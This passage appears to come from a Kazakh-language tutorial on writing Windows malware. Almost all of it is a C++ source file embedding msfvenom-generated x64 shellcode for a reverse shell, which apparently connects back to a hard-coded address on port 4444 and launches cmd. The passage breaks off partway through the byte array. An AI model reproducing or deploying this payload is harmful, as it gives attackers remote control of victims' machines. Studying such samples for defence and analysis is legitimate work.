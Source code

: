 ![msfvenom](./images/6/2021-09-18_20-28.png){width="75%"}

Біздің зиянды бағдарламамыздың (malware) қарапайым C++ кодынан бастайық:

```cpp
/*
cpp implementation malware example with msfvenom payload
*/
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

// our payload: reverse shell (msfvenom)
unsigned char my_payload[] =
"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52"
"\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48"
"\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9"
"\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41"
"\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48"
"\x01\xd0\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01"
"\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48"
"\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0"
"\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c"
"\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0"
"\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04"
"\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59"
"\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48"
"\x8b\x12\xe9\x57\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33"
"\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00"
"\x49\x89\xe5\x49\xbc\x02\x00\x11\x5c\x0a\x09\x01\x06\x41\x54"
"\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x4c"
"\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b\x00\xff"
"\xd5\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89\xc2"
"\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf\xe0\xff\xd5\x48"
"\x89\xc7\x6a\x10\x41\x58\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99"
"\xa5\x74\x61\xff\xd5\x48\x81\xc4\x40\x02\x00\x00\x49\xb8\x63"
"\x6d\x64\x00\x00\x00\x00\x00\x41\x50\x41\x50\x48\x89\xe2\x57"
"\x57\x57\x4d\x31\xc0\x6a\x0d\x59\x41\x50\xe2\xfc\x66\xc7\x44"
"\x24\x54\x01\x01\x48\x8d\x44\x24\x18\xc6\x00\x68\x48\x89\xe6"
"\x56\x50\x41\x50\x41\x50\x41\x50\x49\xff\xc0\x41\x50\x49\xff"
"\xc8\x4d\x89\xc1\x4c\x89\xc1\x41\xba\x79\xcc\x3f\x86\xff\xd5"
"\x48\x31\xd2\x48\xff\xca\x8b\x0e\x41\xba\x08\x87\x1d\x60\xff"
"\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff\xd5\x48"
```